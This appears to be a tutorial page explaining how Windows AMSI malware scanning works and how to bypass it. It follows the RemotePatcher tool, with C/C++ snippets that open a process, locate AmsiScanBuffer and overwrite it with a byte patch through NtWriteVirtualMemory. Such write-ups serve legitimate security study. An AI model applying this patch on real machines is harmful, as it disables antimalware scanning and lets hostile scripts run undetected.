


**AMSI** is an interface that allows scanning of fileless malware (Powershell, Python and other).
Under the hood, it has two methods:
- `AmsiScanBuffer`
- `AmsiScanString`

Both of them will scan a buffer and return true if it contains some malicious string. An easy test can be to execute `"AmsiScanBuffer"` in powershell:



Every time we run a powershell window, AMSI will automatically load:



In theory, in order to bypass this, we should get the addresses of those 2 AMSI scanning functions, and overwrite them to return `false` everytime.
# Bypass
We will use [RemotePatcher](https://github.com/Hagrid29/RemotePatcher) as an example.
1. We will get the process HANDLE:
```
hProc = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    (DWORD)atoi(argv[i+1])
);
```
2. We will get the AMSI address:
```
void* amsiAddr = GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer");
```
3. Define the new `AmsiScanBuffer` definition (this is only a bypass to break the function):
```
char amsiPatch[] = { 0x31, 0xC0, 0x05, 0x4E, 0xFE, 0xFD, 0x7D, 0x05, 0x09, 0x02, 0x09, 0x02, 0xC3 };
```
4. We will use functions from NTDLL:
- `NtProtectVirtualMemory` - change the page protection
- `NtWriteVirtualMemory` - write to memory

This is done because normal Windows API functions will fail to operate on another process.
And we will use them to patch AMSI:
```
DWORD lpflOldProtect = 0;
unsigned __int64 memPage = 0x1000;
void* amsiAddr_bk = amsiAddr;

NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
NtWriteVirtualMemory(hProc, (LPVOID)amsiAddr, (PVOID)amsiPatch, sizeof(amsiPatch), (SIZE_T*)nullptr);
NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
```

If we want to create a process instead of opening it:
```
LPSTARTUPINFOA si = new STARTUPINFOA();
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
CreateProcessA(
    NULL,
    L"powershell.exe", // the actual process
    NULL,
    NULL,
    TRUE,
    0,
    NULL,
    NULL,
    si,
    pi
);
hProc = pi->hProcess;
```
